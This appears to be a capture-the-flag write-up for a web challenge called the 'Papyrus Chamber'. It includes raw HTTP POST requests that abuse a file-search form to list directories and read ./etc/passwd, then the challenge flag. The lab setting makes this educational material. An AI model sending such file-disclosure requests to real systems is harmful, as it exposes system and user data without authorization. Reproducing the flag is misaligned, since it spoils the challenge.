




# Information gathering / Attack
Entering the site the user is presented with a button to enter the "Papyrus Chamber".  


Analyzing the source code on this page doesn't give any hints.


Pressing the button redirect the user to "The Papyrus Chamber" where it's possible to search the archives.   


Analyzing the source on this page give away a hint (through the comments) that files and directoires could be listed and files be opened.  



Entering an absolute path ```/etc/passwd/``` to test the functionality of the search function doesn't give any output either in the app or the source code.  
```http
POST /papyrus HTTP/1.1
Host: 64.227.121.142:6003
Content-Length: 20
Cache-Control: max-age=0
Accept-Language: en-GB,en;q=0.9
Origin: http://64.227.121.142:6003
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://64.227.121.142:6003/papyrus
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

file=%2Fetc%2Fpasswd
```


Testing to enter just a single period character ```.``` to see if the app can list the current directory. Here a list of directories are returned to the user.  
```http
POST /papyrus HTTP/1.1
Host: 64.227.121.142:6003
Content-Length: 6
Cache-Control: max-age=0
Accept-Language: en-GB,en;q=0.9
Origin: http://64.227.121.142:6003
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://64.227.121.142:6003/papyrus
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

file=.
```





The response hints that the ```ls``` probably is the executed command, that the command is executed at the root ```/``` path and that relative paths has to be used. A famous file to be used in a CTF and probably would give away the users on the system is ```/etc/passwd```. Entering the relative path ```./etc/passwd``` returns a the contents of the file.


```http
POST /papyrus HTTP/1.1
Host: 64.227.121.142:6003
Content-Length: 21
Cache-Control: max-age=0
Accept-Language: en-GB,en;q=0.9
Origin: http://64.227.121.142:6003
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://64.227.121.142:6003/papyrus
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

file=.%2Fetc%2Fpasswd
```





This response tells that the cat command is probably in use as well, that there is two users called ```root``` and ```anubis``` and that the users ```anubis``` has a home directory ```/home/anubis``` and ```root``` has the regular ```/root``` as home directory.

The ```anubis``` home directory seems to be empty cause nothing is returned when entering the path ```./home/anubis```. But the ```/root``` contains a directory called ```flags``` and contains a text file called ```true_flag.txt``` containing the flag for the trail.   
Path to the flag: ```./root/flags/true_flag.txt```  





Flag: ```O24{c0ngr4tul4t10ns_y0u_f0und_th3_r34l_fl4g!}```